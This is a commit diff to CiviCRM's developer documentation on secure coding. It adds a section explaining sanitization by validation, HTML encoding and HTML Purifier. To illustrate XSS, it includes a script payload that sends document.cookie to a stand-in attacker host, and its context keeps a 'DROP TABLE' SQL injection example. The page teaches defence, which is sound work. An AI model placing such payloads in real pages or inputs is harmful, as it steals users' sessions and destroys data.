

Before and after one commit to civicrm/civicrm-dev-docs, an MkDocs documentation site: the page built from docs/standards/secure.md, in a window 1280 px wide and 1400 px high, scrolled down 1667 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; old or Windows-style settings are respelled for this version of MkDocs; some of the changed text lies outside the part shown.

Commit message:
Security - explain sanitization

````diff
--- a/docs/standards/secure.md
+++ b/docs/standards/secure.md
@@ -35,9 +35,9 @@
 !!! note
     You might think that an input like ``0; DROP TABLE `civicrm_contact` `` would present an [even more serious a vulnerability](https://xkcd.com/327/), but fortunately CiviCRM does not allow [query stacking](http://www.sqlinjection.net/stacked-queries/) which means `executeQuery()` can only execute one query at a time.
 
-### A improvement using sanitizing
+### An improvement using sanitizing
 
-In order to fix this security vulnerability, we need to sanitize either (or both!) the input or output as follows:
+In order to fix this security vulnerability, we need to sanitize either the input or output (or both!) as follows:
 
 ```php
 $contactId = CRM_Utils_Request::retrieve(
@@ -55,6 +55,39 @@
 ```
 
 Now, users will only be able to send integers in, and CiviCRM will only be able to send integers out. This is obviously a simplified example, but it illustrates the concepts of inputs, outputs, and sanitizing.
+
+
+## Sanitization methods
+
+Sanitizing (also sometimes generally called "**escaping**") refers the process of cleaning (or rejecting) data to protect against attacks.
+
+### Validation
+
+The most primitive way to sanitize untrusted data (as in the example above) is to throw an error when it does not conform to the expected format. This works well for data inputs which are of known (and simple) types, but can be much more difficult (and less effective) when used for *outputs* or complex data types.
+
+### Encoding (aka "escaping") {:#encoding}
+
+Encoding alters the untrusted data to suit a *specific output*.
+
+For example, consider the following Smarty code:
+
+```html
+<div class="email">{$emailAddress}</div>
+```
+
+This works fine with an input of `foo@example.org`. But a string like `<script>window.location='http://attacker.example.com/?cookie='+document.cookie</script>` would present an [XSS](https://excess-xss.com/) vulnerability. If loaded in a victim's browser, this string would send the victim's cookies to the attacker's website and allow the attacker to masquerade as the user.
+
+Using validation to reject email addresses characters like `<` or `>` would prevent the attack, but it would also prevent us from displaying email addresses like `Foo Bar <foo@example.org>`.
+
+By *encoding* the data (for HTML), we change `Foo Bar <foo@example.org>` to `Foo Bar &lt;foo@example.org&gt;`. This prevents the attack and allows us to display any characters we wish.
+
+!!! important
+    Encoding is specific to output mechanisms. Data embedded within HTML must be encoded differently from data embedded in an SQL query or a shell command.
+
+### Purification
+
+In rare cases such as user-editable rich text fields, CiviCRM cannot use validation or encoding to protect against attacks because the same characters used in attacks are also necessary for presentation. For these cases, CiviCRM uses a 3rd-party library called [HTML Purifier](http://htmlpurifier.org/) which employs sophisticated techniques to [remove XSS](http://htmlpurifier.org/live/smoketests/xssAttacks.php) from HTML strings.
+
 
 ## Escape on Input v Escape on Output
 
````
